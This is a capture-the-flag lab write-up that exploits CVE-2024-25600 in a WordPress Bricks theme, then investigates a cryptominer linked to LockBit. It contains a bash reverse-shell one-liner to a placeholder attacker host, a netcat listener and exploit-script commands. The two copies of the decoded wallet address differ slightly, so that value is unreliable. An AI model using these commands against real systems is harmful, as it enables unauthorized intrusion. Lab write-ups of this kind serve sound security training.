
Bricks Heist
Crack the code, command the exploit! Dive into the heart of the system with just an RCE CVE as your key. Can you hack back the server and identify what happened?
Introduction
This challenge required exploiting a vulnerable web application to regain access to a compromised server. The main objectives included identifying and leveraging an RCE vulnerability, escalating privileges, and uncovering critical system information. Successful exploitation provided insight into how the breach occurred and allowed us to reclaim control over the system.
Step 1: Information Gathering & Enumeration
The first step was to analyze the source code of the target webpage.
By inspecting the source page, we found references to wp-content and wp-json,
indicating that the site is running WordPress.

Additionally, the presence of the WordPress favicon further confirmed that the target is a WordPress site.

Scanning with WPScan
Next, we used WPScan to gather more information about the target:
wpscan --url {url} --disable-tls-check

The scan revealed that the site is using the Bricks 1.9.5 theme. We then searched for known vulnerabilities related to this theme.
A Proof-of-Concept (PoC) for CVE-2024-25600 can be found here: [PoC Repository].
And the corresponding exploit script is available here: [Exploit Script].
Step 2: Exploitation
After identifying the vulnerable Bricks 1.9.5 theme, we proceeded to exploit it using the available script. First, we installed the necessary dependencies as instructed in the GitHub repository:
pip3 install -r requirements.txt
Once the dependencies were installed, we executed the exploit to gain a reverse shell:
python3 shell.py -u <URL>

Running the exploit successfully granted us a shell on the target system, allowing us to investigate further.Step 3: Privilege Escalation
After gaining initial access, we needed to escalate our privileges to get full control over the system. We executed a bash reverse shell to establish a more stable connection:
bash -c 'exec bash -i &>/dev/tcp/{ATTACK_MACHINE}/4444 <&1'
On the attack machine, we set up a netcat listener to catch the incoming shell:
nc -lvnp 4444
Once the connection was established, we had a fully interactive shell, allowing us to continue our investigation and execute further commands.
Step 4: Answering the Challenge Questions
1. What is the content of the hidden .txt file in the web folder?
During enumeration, we discovered a hidden .txt file inside the web folder.
Using basic directory listing, we identified its location and retrieved its contents:

Additionally, within wp-config.php, we found hardcoded credentials,
which allowed us to log in to phpMyAdmin for further analysis.

2. What is the name of the suspicious process?
We listed all running Linux Process using:
systemctl list-units --type=service
Among the services, we identified a suspicious process named TRYHACK3M.

3. What is the service name affiliated with the suspicious process?
To inspect the process further, we extracted the service file using:
systemctl cat ubuntu.service
This revealed that the suspicious process is associated with the service: ubuntu.service.

4. What is the log file name of the miner instance?
Searching through the /lib/NetworkManager directory,
we discovered a log file containing traces of mining activity:

The mining logs were stored in the file: inet.conf.
5. What is the wallet address of the miner instance?
We extracted the wallet address from the mining log file by inspecting inet.conf.
The address appeared encoded, so we used CyberChef’s Magic Decoder to extract it:
Decoded Wallet Address:
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
bc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa
6. The wallet address used has been involved in transactions between wallets belonging to which threat group?
By searching the decoded wallet address on Blockchair, we found that it was linked to multiple transactions associated with a known threat group.

The transactions were traced back to LockBit, a notorious ransomware group.